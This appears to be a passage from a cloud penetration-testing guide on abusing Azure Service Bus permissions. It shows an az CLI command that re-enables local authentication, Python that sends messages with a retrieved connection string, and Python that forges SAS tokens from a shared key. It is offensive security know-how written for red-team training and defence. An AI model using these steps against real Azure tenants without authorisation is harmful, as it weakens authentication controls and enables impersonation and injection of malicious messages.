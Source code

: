 ### Microsoft.ServiceBus/namespaces/write (& Microsoft.ServiceBus/namespaces/read if az cli is used)

With these permissions **an attacker can re-enable "local authentication"** with the following command and therefore all the keys from sahred policies will work. 

```bash
az servicebus namespace update --disable-local-auth false -n <namespace-name> --resource-group <res-group>
```

### Send Messages with keys (Microsoft.ServiceBus/namespaces/[queues|topics]/authorizationRules/ListKeys/action OR Microsoft.ServiceBus/namespaces/[queues|topics]/authorizationRules/regenerateKeys/action)

You can retrieve the `PrimaryConnectionString`, which acts as a credential for the Service Bus namespace. With this connection string, you can fully authenticate as the Service Bus namespace, enabling you to send messages to any queue or topic and potentially interact with the system in ways that could disrupt operations, impersonate valid users, or inject malicious data into the messaging workflow. This method works if `--disable-local-auth` is set to false (so local auth is enabled).

```python
import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage
# pip install azure-servicebus

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_OR_QUEUE_NAME = "<TOPIC_OR_QUEUE_NAME>"

async def send_message():
    async with ServiceBusClient.from_connection_string(NAMESPACE_CONNECTION_STR) as client:
        async with client.get_topic_sender(topic_name=TOPIC_OR_QUEUE_NAME) as sender:
            await sender.send_messages(ServiceBusMessage("Hacktricks-Training: Single Item"))
            print("Sent message")

asyncio.run(send_message())
```

Addtionally you can send messages with az rest, in this case you need to generate a sas token to use.

```python
import time, urllib.parse, hmac, hashlib, base64

def generate_sas_token(uri, key_name, key, expiry_in_seconds=3600):
    expiry = int(time.time() + expiry_in_seconds)
    string_to_sign = urllib.parse.quote_plus(uri) + "\n" + str(expiry)
    signed_hmac_sha256 = hmac.new(key.encode('utf-8'), string_to_sign.encode('utf-8'), hashlib.sha256).digest()
    signature = urllib.parse.quote_plus(base64.b64encode(signed_hmac_sha256))
    token = f"SharedAccessSignature sr={urllib.parse.quote_plus(uri)}&sig={signature}&se={expiry}&skn={key_name}"
    return token

# Replace these with your actual values
resource_uri = "https://<namespace>.servicebus.windows.net/<queue_or_topic>"
key_name = "<SharedKeyName>"
primary_key = "<PrimaryKey>"

sas_token = generate_sas_token(resource_uri, key_name, primary_key)
print(sas_token)
```
